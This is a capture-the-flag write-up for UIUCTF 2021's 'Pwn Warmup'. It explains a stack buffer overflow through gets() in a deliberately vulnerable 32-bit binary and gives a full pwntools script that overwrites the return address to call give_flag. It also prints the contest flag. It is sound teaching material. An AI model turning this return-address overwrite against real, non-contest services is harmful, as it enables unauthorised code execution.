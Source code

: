 # Pwn Warmup - 50 pts, 214 solves
> Hmm this time we arent just going to give you the flag like last year... What can you do?!
> 
> nc pwn-warmup.chal.uiuc.tf 1337
> 
> challenge

`Pwn Warmup` was a pwn (binary exploitation) challenge in UIUCTF 2021, where I played with `TeamlessCTF`, placing 12th place overall. Although my team solved this challenge before I got a chance to during the CTF, I wanted to make a writeup for it anyways.

We first decompile the `main` function in Ghidra:

```C
void main(void)

{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("This is SIGPwny stack3, go");
  printf("&give_flag = %p\n",give_flag);
  vulnerable();
  return;
}
```

It seems that the challenge first calls `setvbuf` to help input/output to work in the remote connection, and then prints out the address of the `give_flag` function. Then, the program calls the `vulnerable` function, which (of course) is vulnerable. Let's look at the decompilation:

```C
void vulnerable(void)

{
  char buf [8];
  
  gets(buf);
  return;
}
```

Hmmm... The program calls `gets()` on the `buf` variable. Let's read from the man page of `gets`:

```
DESCRIPTION
       Never use this function.

       gets()  reads  a  line  from  stdin into the buffer pointed to by s until either a terminating newline or EOF,
       which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see BUGS below).
```

In case you didn't notice:

> Never use this function.

OK. So the program is using an insecure function. Why is `gets()` insecure? According to the man page, `gets` reads input from `stdin` until a newline, and then *writes it to memory*. No check for how much memory is being written to, so we can overwrite whatever we want in memory. Let's visualize the memory:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

`buf` is the area we write to, and the saved ebp and saved eip are the places where the program has saved registers for when the program returns to the function from which it was called. If we overwrite it with an address, we can control where the program jumps to after the `vulnerable()` function is done. Luckily for us, the program has provided us with a `give_flag` function that prints out the flag. So our goal is to overwrite the saved eip with the address of give_flag.

**Sidenote: What are ebp and eip and why are they saved on the stack right now?**
The CPU of a computer has multiple registers, each able to hold a value. In a 32-bit program, the registers each hold 4 bytes. The ebp register stores the base address of the stack while the eip register stores the address of the current instruction the program is executing. When a program calls a function, it must store where to return to after the function is called. So, when a function is called ebp and eip are stored on the stack, and are returned to the registers when `ret` is called. So, if we overwrite the saved eip, we can hijack the control flow of the program because we are changing where the program jumps to after the function is finished.

How do we do this? Let's examine memory again.

Let's say we input `AAAAAAAA` into the program. Then the program writes the input to `buf`:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
41 41 41 41 41 41 41 41 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

The program functions as normal, because we did not give more input that it could take. But what if we inputted more text?

Let's say we inputted `AAAAAAAAAAAAAAAAAAAA` (24 `A`s) into the program. Now our memory looks like this:

```
|        buf[8]        |                       | saved ebp | saved eip |
------------------------------------------------------------------------
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
```

Our saved eip is now `0x41414141` (note that 0x41 is the hex value of `A` so our `A`s are getting written to the saved eip). This will cause a segmentation fault because the program is trying to jump to the address `0x41414141` but doesn't work because there isn't actually any memory at `0x41414141`. Progress! We crashed the program.

So what if we changed our `0x41414141` with something a little more controlled... Let's say the address of `give_flag`. Luckily, our program prints out the address of `give_flag` when we run it. So, all we need to do is:

- send 20 `A`s to get through `buf` and ebp
- send the address of `give_flag` to overflow eip

Hold on. We can't literally send the numbers that represent the address of `give_flag`, we need to send them in the format that the program expects addresses. We need to send the address as hex, and in *little endian*. This means that we translate our address from hex to ASCII and send it in backwards.

Now, this all seems kind of complicated. But don't fear! We have a trusty python package to do this for us, including formatting the address in little endian and sending those unprintable characters to the server!

We will use the `pwntools` python package, which has all sorts of tools for pwn challenges. We can start a pwntools script:

```python
#!/usr/bin/env python3

from pwn import * # import pwntools

conn = remote("pwn-warmup.chal.uiuc.tf", 1337) # connect to the remote server
``` 

OK! We have a script that will connect to the remote server. Now, we use our program to programatically get the address of `give_flag` that was printed out:

```python
conn.recvuntil("&give_flag = ")
give_flag = int(conn.recvline(), 0)
```

We recieve the input up to `&give_flag = `, then we recieve the rest of the line, which is simply the address in hex. We convert this to an `int`.

Now, it's time to build our payload. We first need 20 `A`s and then the address of `give_flag`. Remember the little endian stuff? Pwntools has a function, `p32`, that will format an address to little endian for 32-bit programs such as this one. (it uses `struct.pack` behind the scenes if you want to figure out what it's doing)

```python
payload = b"A" * 20 # 20 As
payload += p32(give_flag) # format our address in little endian
```

So now we have a payload that will overwrite the saved eip (the return address) with the address of `give_flag`. We send it with pwntools:

```python
conn.sendline(payload) # send the payload to the server
conn.stream() # print the output
```

And with that, we get the flag printed out for us.

Flag: `uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}`

Full solve script:

```python
#!/usr/bin/env python3

from pwn import *

conn = remote("pwn-warmup.chal.uiuc.tf", 1337)

conn.recvuntil("&give_flag = ")
give_flag = int(conn.recvline(), 0)

payload = b"A"*20
payload += p32(give_flag)

conn.sendline(payload)

conn.stream()
```
